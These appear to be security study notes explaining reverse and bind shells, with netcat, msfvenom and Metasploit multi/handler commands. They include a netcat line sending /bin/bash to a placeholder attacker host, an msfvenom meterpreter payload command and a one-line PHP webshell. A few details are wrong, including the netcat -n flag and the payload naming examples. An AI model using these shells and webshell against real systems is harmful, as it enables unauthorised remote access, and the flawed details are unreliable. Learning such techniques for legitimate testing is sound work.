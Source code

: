 #### Remote system interaction
* `reverse` shell - when we force the remote server to connect to our server.
	* the listener runs on the attacker's machine
	* the target connects to the attacker's machine with a shell
	* the attacker doesn't need to know the victim's IP
* `bind` shell - when we force remote server to open up a port which we can connect to in order to execute further commands. 
	* the listener on the server computer
	* the attacker need to know the IP address of the victim
	


### Tools
- Netcat
- Socat
- Metasploit - multi/handler
- Msfvenom

### simulating Reverse vs Bind shell
#### Reverse shell
Start listening on the attacker side
```zsh
sudo nc -lvnp <port>
```

Initiating connection from target side
```zsh
nc <attacker-ip> <port> -e /bin/bash
```

> the `-e` flag, which stands for `execute` instructs `nc` to execute the command that follows it after establishing a connection.

#### Bind shell
On the target machine (assume we're on the window machine - that's why we included `cmd.exe` file instead)
```zsh
nc -lvnp <port> -e "cmd.exe"
```

Connect to that service form the attacker `pc`
```zsh
nc <targets-ip> <port>
```


### Netcat
Time to explain the `-lvnp` thing
 - l - listening
 - v - verbose
 - n - host name resolution, `DNS`
 - p - port specification

### msfvenome
- used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal `shellcode` when developing something like a Buffer Overflow exploit.
syntax:
```zsh
msfvenom -p <PAYLOAD> <OPTIONS>
```

#### Staged vs Stageless
- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually 
    
- _**Stageless**_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

#### payload naming convention 
```
<os>/<arch>/<payload>
```

- __ is used for ``stageless`` payloads. `windows/shell/bind_hidden_tcp`
- / is used for staged ones. ` windows/shell_hidden_bind_tcp `

> to list all available payloads we can use this `msfvenom --list payloads`

Example:
>  to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`
>  we use the following command ...

```zsh
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```

### Metasploit multi/handler
- tool for catching reverse shells. 
*how to use?*
1. open metasploit `msfconsole`
2. type `use multi/handler` and press enter
3. `set PAYLOAD <payload>
4. `set LHOST <listen-address>`
5. `set LPORT <listen-port>`
6. `exploit -j`

### webshells
- a script that runs inside a webserver, which executes code on the server.
- after uploading vulnerability, we can execute that file directly on the server with the command of our desire in the `url`
>[!Demo] 
> shell.php file
> `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
> call the file with the command from url
> `/shell.php?cmd=whoami`

>[!Takeaway]
>Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.








